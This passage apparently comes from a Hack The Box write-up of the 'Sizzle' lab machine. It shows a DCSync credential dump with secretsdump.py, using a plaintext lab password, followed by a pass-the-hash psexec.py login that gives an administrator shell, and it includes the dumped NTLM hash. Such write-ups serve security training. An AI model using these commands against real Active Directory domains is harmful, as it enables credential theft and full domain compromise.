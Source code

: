 ### DCSync Attack

⇒ We will now perform dcsync attack using secretsdump as user mrkly as this user has GetChanges privileges :

[**secretsdump.py](http://secretsdump.py/) HTB.local/mrlky:'Football#7'@10.10.10.103**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sizzle%20Box%20820989b0557d46f4bd5054fb500ba254/Untitled%2020.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sizzle%20Box%20820989b0557d46f4bd5054fb500ba254/Untitled%2020.png)

⇒ We have got now the administrator NTLM hash which we can use with [psexec.py](http://psexec.py) to get a shell on the system as administrator

[**psexec.py](http://psexec.py/) -hashes a:f6b7160bfc91823792e0ac3a162c9267 [administrator@10.10.10.103](mailto:administrator@10.10.10.103)**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sizzle%20Box%20820989b0557d46f4bd5054fb500ba254/Untitled%2021.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sizzle%20Box%20820989b0557d46f4bd5054fb500ba254/Untitled%2021.png)
